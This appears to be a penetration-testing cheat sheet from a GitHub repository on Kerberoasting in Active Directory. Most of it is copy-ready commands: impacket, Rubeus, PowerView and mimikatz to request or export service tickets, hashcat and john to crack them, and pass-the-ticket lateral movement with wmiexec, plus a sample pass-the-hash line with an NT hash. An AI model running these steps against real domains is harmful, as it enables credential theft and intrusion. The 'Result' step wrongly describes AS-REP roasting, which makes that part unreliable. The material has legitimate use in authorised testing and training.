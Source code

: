 # Kerberoasting
This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.

![AD Herbros002](https://github.com/user-attachments/assets/f7ed51a4-9646-4ccc-a4e7-f302842ce711)

---

## **Perform Kerberoasting using `Kali`:**

**Command Syntax**: Use the following command to request the **TGS** (Ticket Granting Server) and capture the TGS-REP hash:
#### Kerberoast without preauthentication   
```bash
impacket-GetUserSPNs -request -dc-ip <DomainController_IP>  -outputfile <output_file> <Domain/User>
```
#### with a password
```
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
```
#### Using a Hash from a user 
```
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```
Example
```
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'aad3b435b51404eeaad3b435b51404ee:e728ecbadfb02f51ce8eed753f3ff3fd' -dc-ip 10.10.94.140 'oscp.exam/celia.almeda'
```
- **-request** to obtain the TGS
Example:
``` shell
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.50 corp.com/ahmed
```
HashShape
```
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$9b161bcb9f98f19b.......a85ee4
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in [[Hashcat]] format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
**Solving Error**
`Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`
![image](https://github.com/user-attachments/assets/ac12a70c-6d6f-47ab-baca-79415d7c39f6)
```shell
sudo apt install rdate
sudo timedatectl set-ntp off
sudo rdate -n <Domain-IP>
```
Then Run Command again and will work

---

## **Perform Kerberoasting on `Windows` (joined domain):**
### Using built-in [setspn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) binary to Enumerating SPNs with setspn.exe
```powershell
setspn.exe -Q */*
```
![image](https://github.com/user-attachments/assets/f526d6e6-2615-4333-b64c-9e62656cf9bf)
#### Targeting a Single User
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
![image](https://github.com/user-attachments/assets/8c61059a-b2e3-45fe-a1cc-c0dcbcef05dc)

### Using use [Rubeus]([https://github.com/GhostPack/Rubeus](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools/GhostPack-Compiled%20Binaries)) 

``` powershell
.\Rubeus.exe kerberoast /nowrap
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /nowrap
```
### Using `PowerView` to Extract TGS Tickets

``` powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
`Results`
```powershell-session
samaccountname
--------------
krbtgt
userb
```
### Using PowerView to Target a Specific User
```powershell
Get-DomainUser -Identity userb | Get-DomainSPNTicket -Format Hashcat
```

**Remove all spaces and lines in a file:**
``` shell
tr -d '[:space:]' < input_file > output_file
```
**Exporting All Tickets to a CSV File**
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\domain_tgs.csv -NoTypeInformation
```
### Extracting Tickets from Memory with Mimikatz
``` mimikatz
mimikatz # base64 /out:true
mimikatz # kerberos::list /export 
```
If we extract only `.kirbi` files and this will happen if we run `mimikatz` automatically without `base64 /out:true` 
##### ---> On kali <---
#### Extract Hashes from `.kirbi` Tickets
``` shell
python3 kirbi2john.py ticket.kirbi > hash.txt
john hash.txt --wordlist=/path/to/wordlist.txt
```
**With Hashcat:** Use Kerberos Ticket Hash mode `13100`:
``` shell
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
### Replay Tickets with Impacket
##### 1. Convert .kirbi to CCache
``` shell
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py ticket.kirbi ticket.ccache
```
##### 2. Set Environment Variable for Replay 
If you plan to use the ticket for further lateral movement or pass-the-ticket attacks, set the `KRB5CCNAME` environment variable:
``` shell
export KRB5CCNAME=/path/to/ticket.ccache
```
If you intend to replay the `.kirbi` ticket instead of cracking it, Impacket’s `psexec.py` or `wmiexec.py` can be used.
``` shell
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass DOMAIN/USERNAME@TARGET
```
- The `-k` flag uses the Kerberos ticket.


### On BloodHound we notice it as:

![image](https://github.com/user-attachments/assets/1d4eab33-897d-44a5-b4d3-68aee8275292)

